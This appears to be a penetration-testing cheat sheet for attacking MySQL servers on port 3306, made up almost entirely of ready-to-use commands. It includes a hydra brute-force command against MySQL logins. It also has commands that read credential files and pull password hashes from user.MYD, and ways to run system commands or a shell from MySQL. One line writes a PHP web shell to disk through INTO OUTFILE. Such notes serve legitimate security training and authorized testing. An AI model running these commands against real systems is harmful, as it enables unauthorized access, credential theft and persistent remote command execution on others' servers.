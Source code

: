 # MYSQL - 3306

#### Brute force <a href="#brute-force-6" id="brute-force-6"></a>

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u
```

#### Extracting MySQL credentials from files <a href="#extracting-mysql-credentials-from-files" id="extracting-mysql-credentials-from-files"></a>

```
cat /etc/mysql/debian.cnf
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

#### Connect <a href="#connect" id="connect"></a>

```
# Local
mysql -u <USER>
mysql -u <USER> -p

# Remote
mysql -h <IP> -u <USER>
```

#### MySQL commands <a href="#mysql-commands" id="mysql-commands"></a>

```
show databases;
use <DATABASES>;

show tables;
describe <TABLE>;

select * from <TABLE>;

# Try to execute code
select do_system('id');
\! sh

# Read & Write
select load_file('<FILE>');
select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
```

#### Manual exploit <a href="#manual-exploit-1" id="manual-exploit-1"></a>

```
Cheatsheet :
	- https://www.asafety.fr/mysql-injection-cheat-sheet/
```
